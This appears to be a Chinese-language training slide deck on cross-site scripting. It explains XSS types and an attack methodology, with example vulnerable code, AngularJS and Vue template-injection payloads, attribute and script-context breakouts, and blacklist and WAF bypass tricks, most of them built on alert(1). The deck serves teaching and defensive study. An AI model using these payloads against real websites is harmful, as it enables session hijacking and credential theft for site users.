








<!-- markdownlint-disable single-title no-inline-html heading-style blanks-around-headings no-duplicate-heading heading-increment-->

# 常见漏洞：跨站脚本攻击

跨站脚本攻击 (Cross-Site Scripting, XSS) 是一种通过在网页中注入恶意脚本，从而实现攻击目的的漏洞。该漏洞主要发生在对 HTML 不正确拼接的场景中。同时，XSS 也不局限于引用 JavaScript 代码，也可以使用 CSS 等技术来得到窃取用户信息等目的。

```python
# 不安全的拼接
username = "<script>alert('XSS')</script>"
html = "<h1>Hello, " + username + "</h1>"
```

```html
<h1>
  Hello,
  <script>
    alert("XSS");
  </script>
</h1>
```

<style>
h1 {
  background-color: #2B90B6;
  background-image: linear-gradient(45deg, #4EC5D4 10%, #146b8c 20%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent;
  -moz-text-fill-color: transparent;
}
</style>

---

## 为什么 XSS 如此重要？

- 漏洞的普遍性（OWASP Top 10 长期上榜）
  - 
- 危害性：窃取用户凭证、会话劫持、钓鱼攻击、APT 攻击入口
- 大型项目的复杂性，木桶效应的短板。
  - X (Twitter)、Steam、Facebook、Google、Apple 等都曾出现过 XSS 漏洞
  - 现代前端工具链普遍缺乏对 CSP 等安全特性的支持

---
layout: two-cols-header
---

## XSS 的攻击能力

由于现代浏览器的功能越来越强大，XSS 的攻击能力也越来越强。

::left::

- 基础能力：

  - 窃取会话凭证
  - 修改 DOM 伪造内容
  - 重定向用户到恶意网站

- 进阶能力：
  - 键盘/音视频记录
  - 浏览器指纹收集
  - 内网探测（WebRTC）
  - WebUSB 等

::right::

- APT 利用：
  - 结合 CSRF 攻击
  - 供应链攻击入口
  - RCE 攻击（利用 v8 等 JS 引擎漏洞）

---
layout: two-cols
---

### 关于 XSS 的三种类型



::right::





---

#### XSS 的三种类型比较

<div style="overflow-x: auto; font-size: 0.75rem;">
  <table style="min-width: 800px; border-collapse: collapse;">
    <thead style="background: #f5f5f5;">
      <tr>
        <th style="padding: 0.4rem; border: 1px solid #ddd;">特征</th>
        <th style="padding: 0.4rem; border: 1px solid #ddd;">存储型 XSS</th>
        <th style="padding: 0.4rem; border: 1px solid #ddd;">反射型 XSS</th>
        <th style="padding: 0.4rem; border: 1px solid #ddd;">DOM 型 XSS</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td style="padding: 0.4rem; border: 1px solid #ddd;"><strong>攻击方式</strong></td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">将恶意代码存储在服务器中</td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">将恶意代码经URL参数反射回页面</td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">通过DOM操作在客户端执行恶意代码</td>
      </tr>
      <tr>
        <td style="padding: 0.4rem; border: 1px solid #ddd;"><strong>持久性</strong></td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">持久化，存储在数据库中</td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">非持久化，一次性</td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">非持久化，一次性</td>
      </tr>
      <tr>
        <td style="padding: 0.4rem; border: 1px solid #ddd;"><strong>危害程度</strong></td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">最高，影响所有访问用户</td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">中等，需要用户点击特制链接</td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">中等，需要用户点击特制链接</td>
      </tr>
      <tr>
        <td style="padding: 0.4rem; border: 1px solid #ddd;"><strong>触发位置</strong></td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">服务器端</td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">服务器端</td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">客户端</td>
      </tr>
      <tr>
        <td style="padding: 0.4rem; border: 1px solid #ddd;"><strong>常见场景</strong></td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">评论区、用户资料、留言板</td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">URL参数、搜索框、表单输入</td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">前端JavaScript动态渲染</td>
      </tr>
      <tr>
        <td style="padding: 0.4rem; border: 1px solid #ddd;"><strong>检测难度</strong></td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">较易（源码审计）</td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">较易（参数检测）</td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">较难（需分析JS代码）</td>
      </tr>
      <tr>
        <td style="padding: 0.4rem; border: 1px solid #ddd;"><strong>防御方式</strong></td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">
          <ul style="margin: 0; padding-left: 1.25rem;">
            <li>输入过滤</li>
            <li>输出转义</li>
            <li>CSP策略</li>
          </ul>
        </td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">
          <ul style="margin: 0; padding-left: 1.25rem;">
            <li>参数验证</li>
            <li>输出转义</li>
            <li>CSP策略</li>
          </ul>
        </td>
        <td style="padding: 0.4rem; border: 1px solid #ddd;">
          <ul style="margin: 0; padding-left: 1.25rem;">
            <li>安全的DOM API</li>
            <li>避免直接操作DOM</li>
            <li>CSP策略</li>
          </ul>
        </td>
      </tr>
      <tr>
        <td style="padding: 0.4rem; border: 1px solid #ddd;"><strong>共同特点</strong></td>
        <td colspan="3" style="padding: 0.4rem; border: 1px solid #ddd;">
          <ul style="margin: 0; padding-left: 1.25rem;">
            <li>都可能导致用户信息泄露</li>
            <li>都可能执行恶意JavaScript代码</li>
            <li>都需要在多个层面进行防御</li>
            <li>都可能被CSP（内容安全策略）缓解</li>
          </ul>
        </td>
      </tr>
    </tbody>
  </table>
</div>

由于现代前端技术的发展，XSS 的几种攻击类型越来越难以区分。

---

## 一般攻击方法论



---

## 1. 寻找反射点/源码审计

这是XSS攻击的第一步，也是最关键的一步。目标是找到应用程序中**接收用户输入并将其反射到页面中（或在JS代码中使用）的位置**。

---
layout: two-cols
---

### 黑盒测试（寻找反射点）

在无法获取源代码的情况下，我们需要像用户一样与Web应用程序交互，观察哪些输入会被反射到页面上。常见的反射点包括：

- **留言区/评论区**：用户可以提交文本、链接，甚至富文本内容（富文本编辑器、Markdown 见下文「XSS in Markdown」）的地方。
  - 
  - 富文本编辑过于复杂，难以自行实现。大多数网站都会使用现有的解决方案。

::right::

- **用户自定义样式**：低代码平台常见，允许用户通过CSS或其他方式自定义页面外观。
- **生成结果预览**：常见于AI Chatbot Artifact、报表生成工具等，用户输入可能被用于生成预览内容。
  - 
  - [XSS Marks the Spot: Digging Up Vulnerabilities in ChatGPT | Imperva](https://www.imperva.com/blog/xss-marks-the-spot-digging-up-vulnerabilities-in-chatgpt/)

---

- **URL参数等**：

  - 形如 `?callback=...` 的参数，如果被用于回调函数名，则可能导致XSS（常见于 JSONP 接口）。

    - JSONP 是远古时代尚未存在 Ajax 或者为了解决跨域问题而产生的方案，具体原理是包裹响应的 JSON 数据为给定的回调函数调用。
    - 通过向 DOM 中动态插入 `<script src="https://example.com/api?callback=someFunction">`，当 API 返回 `someFunction({"name":"John","age":30})` 时，就会执行 `someFunction({"name":"John","age":30})`，从而异步地得到了 API 的响应。
    - 如果相关 API 网站并未对 `callback` 限制的函数名进行过滤，则可能导致XSS。

      ```js
      app.get("/api", (req, res) => {
        const callback = req.query.callback;
        res.send(`${callback}({"name":"John","age":30})`);
      });
      ```

  - 形如 `?message=login failed` 的参数，如果被用于页面内容，则可能导致XSS。

取决于网站的功能，一些其他的参数也有可能会作为反射值出现（HTTP Headers 等）。

---
layout: two-cols
---

### 白盒审计（源码审计）

如果可以访问源代码，我们可以更系统地查找潜在的XSS漏洞。需要重点关注以下几个方面：

- **模板引擎未转义输出**：
  - 许多Web框架使用模板引擎（如Jinja2、Twig、Mustache）来生成HTML。如果模板引擎没有正确转义用户输入，就可能导致XSS。
- **HTML实体化模板用于JavaScript代码**：
  - 如果将用于HTML转义的模板或函数应用于JavaScript代码，可能会导致XSS。因为JavaScript字符串和HTML属性的转义规则不同。
- **JavaScript框架的特性**：
  - AngularJS的`$sce.trustAsHtml`、`$sce.parseAsHtml`等。
  - 客户端模板注入 (Angular, Vue, Mavo)。

::right::

- **直接操作DOM**：

  - 使用`innerHTML`、`outerHTML`、`insertAdjacentHTML`等属性直接操作DOM，并且没有对用户输入进行过滤或转义, 则可能导致 **DOM 型 XSS**。
  - `v-html` (Vue.js) 和 `dangerouslySetInnerHTML` (React) 也是类似的情况。

- **不安全的JavaScript函数(Sink)**：
  直接接受用户输入，并且没有过滤，就将内容输出到页面的的函数，例如：`eval()`, `new Function()`.

---
layout: two-cols
---

#### 模板引擎未转义输出

常见语言的例子如下：

- PHP（常见！）:
  - 不安全： `<?php echo $user_input; ?>`
  - 安全： `<?php echo htmlspecialchars($user_input); ?>`
- Jinja2:
  - 不安全： `{{ user_input|safe }}`
  - 安全： `{{ user_input }}`
- EJS:
  - 不安全： `<%- user_input %>`
  - 安全： `<%= user_input %>`
- Mustache:
  - 不安全： `{{{ user_input }}}`
  - 安全： `{{ user_input }}`

::right::

- Pug:
  - 不安全： `!= user_input`
  - 安全： `= user_input`
- Themyleaf:
  - 不安全： `<span th:utext="${user_input}">`
  - 安全： `<span th:text="${user_input}">`
- JSP
  - 不安全：`<span>${userInput}</span>`
  - 安全：`<c:out value="${userInput}" />`
  - 安全：`<span>${fn:escapeXml(userInput)}</span>`
- Smarty:
  - 不安全：`<span>{$userInput|unescape}</span>`
  - 安全：`<span>{$userInput}</span>`

---

#### HTML实体化模板用于JavaScript代码

HTML 实体化规则对 Inline JavaScript 属性可能无效，考虑以下场景：

```jinja
<a href="javascript:reply_to_comment('{{ comment_id }}')">Reply</a>
```

虽然这里 `comment_id` 会被 HTML 实体化，但是作为属性，其实际上因为HTML在渲染属性的时候，会先解实体编码后才执行属性内部的JavaScript代码。

令 `comment_id = "' + alert(1) + '"`，则当链接被点击时，实际执行的代码为 `reply_to_comment('' + alert(1) + '')`，从而触发XSS。

Django 提供了 [`escape_js` 函数](https://docs.djangoproject.com/en/dev/ref/templates/builtins/#escapejs)，然而这么做依然存在问题。

```jinja
<a href="javascript:reply_to_comment('{{ comment_id | escapejs }}')">Reply</a>
```

原因就出在 JavaScript 伪协议上，不管是 JavaScript 伪协议还是 HTTP 协议，他们在 href 属性里都是 URL。既然是 URL，那么肯定支持 URL 编码，这就是核心问题了：浏览器在渲染 JavaScript 伪协议地址的时候，会先进行 URL 解码，再执行 JavaScript。

令 `comment_id = encodeURIComponent("' + alert(1) + '")`，则当链接被点击时，实际执行的代码仍然是 `reply_to_comment('' + alert(1) + '')`，从而触发XSS。

---

#### JavaScript 框架的特性：客户端模板注入 (CSTI)

CSTI 非常类似于 SSTI，SSTI 可能允许在远程服务器上执行代码，而 CSTI 可能允许在受害者浏览器中执行任意 JavaScript 代码。检测此漏洞的方法与 SSTI 非常相似，例如，`{{ 7-7 }}`，如果应用存在漏洞，看到`0`；否则会看到 `{{ 7-7 }}`。

- **AngularJS** 是一个广泛使用的JavaScript框架，通过称为指令的属性与HTML交互，其中一个重要的指令是 `ng-app`。该指令使AngularJS能够处理HTML内容，允许在双花括号内执行JavaScript表达式。

  - 当用户输入被动态插入到带有 `ng-app` 标签的HTML正文时，可以利用 AngularJS 的语法执行任意 JavaScript 代码。

    ```html
    {{$on.constructor('alert(1)')()}}
    <!-- 执行 alert(1) -->
    {{constructor.constructor('alert(1)')()}}
    <!-- 执行 alert(1) -->
    <input ng-focus="$event.view.alert('XSS')" />
    <!-- 执行 alert('XSS') -->

    <!-- Google Research - AngularJS -->
    <div ng-app ng-csp>
      <textarea
        autofocus
        ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"
      >
      <!-- 重定向到 localhost/mH/ -->
      </textarea>
    </div>
    ```

---

- VueJS

  ```html
  <!-- Google Research - Vue.js-->
  ">
  <div
    v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"
  >
    aaa
  </div>
  ```

  关于Vue中CSTI的详细分析可参考：[https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

  - Vue3: `{{_openBlock.constructor('alert(1)')()}}`
  - Vue2: `{{constructor.constructor('alert(1)')()}}`

---
layout: two-cols
---

#### 直接操作 DOM

- 原生 JavaScript：

  ```js
  const userInput = "alert(1)";

  document.write(`<script>${userInput}</script>`);

  const text = document.createElement("span");
  // 注意： script 标签在 innerHTML 设置的情况下不会被触发
  text.innerHTML = `<script>${userInput}</script>`;
  document.body.appendChild(text);

  const script = document.createElement("script");
  const code = document.createTextNode(userInput);
  script.appendChild(code);
  document.body.appendChild(script);
  ```

- React:

  ```tsx
  const Hello = ({ userInput }) => {
    return <div dangerouslySetInnerHTML={{ __html: userInput }} />;
  };
  ```

::right::

- Vue:

  ```vue
  <template>
    <div v-html="userInput"></div>
  </template>
  <script setup>
  const userInput = "";
  </script>
  ```

---

#### 不安全的 JavaScript 函数

```html
<input type="text" id="userInput" />
<script>
  const myFilter = document.getElementById("userInput").value;
  const someFilter = eval(`function someFilter(value) {
    return ${myFilter};
  }`);
  // or
  const someFilter = new Function(`return ${myFilter}`);
</script>
```

---

## 2. 确定漏洞点与Fuzzing

找到可能的反射点后，我们需要进一步确认是否存在XSS漏洞，并确定漏洞的具体类型。这通常涉及fuzzing，即发送各种测试payload，观察应用程序的响应。

---

### 确定上下文

首先要确定用户输入被反射到页面的哪个位置，这决定了我们可用的攻击向量：

- **原始HTML文本**：最理想的情况，可以直接注入`<script>`标签或使用其他HTML标签（如``、`<svg>`）触发XSS。
- **HTML标签属性内**：需要考虑能否逃逸属性值，或者利用属性本身的特性（如`href`、`src`、`on*`事件）触发XSS。
- **JavaScript代码内**：需要考虑能否逃逸字符串、变量、函数调用等，构造有效的JavaScript代码。
- **JavaScript函数名/参数**：如`?callback=...`，需要找到绕过字符限制的方法（见下文）。

---

#### 原始HTML

- 输入反射在原始HTML中时，需构造HTML标签执行JS，如``, `<iframe>`, `<svg>`, `<script>`等。
  - `<script>alert(1)</script>`
    - `innerHTML` 的场合下，`<script>` 标签会由于安全机制而不会被执行。
  - ``
  - `<iframe srcdoc="<script>alert(1)</script>">`
  - `<svg><script>alert(1)</script></svg>`

同时注意客户端模板注入。

---
layout: two-cols
---

#### HTML标签属性内

输入反射在标签属性中时：

<v-clicks>

- 逃逸属性到HTML：`">`
  - result: ``

- 逃逸属性但无法逃逸标签时（过滤`<`、`>`），创建事件：`" autofocus onfocus=alert(1) x="`

  - example: `<input type="text" placeholder="$userInput" />`
  - result: `<input type="text" placeholder="" autofocus onfocus=alert(1) x="`

</v-clicks>

::right::

<v-clicks>

- 无法逃逸属性时，利用支持JS执行的属性（如`href="javascript:alert(1)"`）

  - 1-click 交互
  - example: `<a $name="$userInput">link</a>`
  - result: `<a href="javascript:alert(1)">link</a>`

- 利用`accesskey`属性（需社会工程）：`" accesskey="x" onclick="alert(1)" x="`

  - 1-click 交互，指定触发快捷键
  - example: `<a href="$userInput">link</a>`
  - result: `<a href="" accesskey="x" onclick="alert(1)" x=">link</a>`

</v-clicks>

---
layout: two-cols
---

#### JS代码内

输入反射在`<script>`标签或JS文件中时：

- 注入 `</script>` 逃逸JS上下文：

  ```html
  <!-- Vulnerable Code -->
  <script>
  const message = "$userInput";
  </script>

  <!-- Payload -->
  </script>

  <!-- Result -->
  <script>
  const message = "</script>";
  </script>
  <!-- Script tag closed, image tag executes JS -->
  ```

::right::

- 逃逸字符串并执行代码：

  ```html
  <!-- Vulnerable Code -->
  <script>
    const username = "$userInput";
  </script>

  <!-- Payload -->
  ';alert(1)//

  <!-- Result -->
  <script>
    const username = "";
    alert(1); //';
  </script>
  <!-- String closed, alert executed -->
  ```

---
layout: two-cols
---

- 模板字符串中使用表达式：

  ```html
  <!-- Vulnerable Code -->
  <script>
    const greeting = `Hello, ${userInput}`;
  </script>

  <!-- Payload -->
  ${alert(1)}

  <!-- Result -->
  <script>
    const greeting = `Hello, ${alert(1)}`;
  </script>
  <!-- Alert executes when template string is defined -->
  ```

::right::

- Unicode编码执行JS：

  ```html
  <!-- Vulnerable Code -->
  <script>
    const input = "$userInput";
  </script>

  <!-- Payload -->
  \u0061lert(1)

  <!-- Result -->
  <script>
    const input = "alert(1)";
  </script>
  <!-- Unicode decoded before execution -->
  ```

---

#### JS函数执行

端点接收函数名参数时（如`?callback=alert(1)`），可能通过合法字符访问 DOM （之前讲过的 JSONP 类似）或触发SOME攻击（Same Origin Method Execution）。

---
layout: two-cols
---

### Fuzzing技巧

根据上下文的不同，fuzzing的策略也不同：

- **标签名/属性名黑白名单**：
  - 尝试各种HTML标签和属性，观察哪些被允许，哪些被过滤。可以使用工具（如Burp Suite Intruder）自动化fuzzing过程。
  - 白名单：通常更安全，但可能存在绕过方式（如利用浏览器的解析特性）。
  - 黑名单：容易遗漏，通常有更多绕过方式。
- **WAF绕过**：
  - WAF（Web Application Firewall）通常会拦截包含可疑XSS payload的请求。
  - 绕过WAF的方法与绕过黑名单类似，但通常需要更复杂的技巧，如利用非常规的编码、分块传输、HTTP参数污染等。

::right::

- **黑名单绕过**：
  - **大小写混淆**：`<ScRiPt>`
  - **双重标签**：`<scr<script>ipt>`
  - **非常规属性分隔符**：`/`、`%00`、换行符
  - **未闭合标签+注释**：`<iframe src=javascript:alert(1)//`
  - **编码**：HTML实体编码、URL编码、Unicode编码、Base64编码等
  - **利用浏览器的解析特性**：如HTML解析器会先于JavaScript解析器执行
- **字符受限**：如果可用的字符集受限，需要利用 jsfuck、aaencode 等特殊的编码和技术。

---

#### WAF 绕过



---

#### 注入到原始 HTML 中

当你的输入被反射到 HTML 页面内部，或者你可以转义并注入 HTML 代码时，首先要做的就是检查是否可以利用 `<` 来创建新的标签：尝试反射该字符，并检查它是否被 HTML 编码、删除，或者未加修改地反射出来。只有在最后一种情况下，你才能够利用这种情况。

_注意：HTML 注释可以使用 `-->` 或 `--!>` 来关闭_

在这种情况下，如果没有使用任何黑名单/白名单，你可以使用如下 payload：

```html
<script>
  alert(1)
</script>

<svg onload=alert('XSS')>
```

但是，如果使用了标签/属性黑名单/白名单，则需要fuzzing 出可以创建哪些标签，之后找出有效标签中的属性/事件，以了解如何攻击上下文。

---
layout: two-cols
---

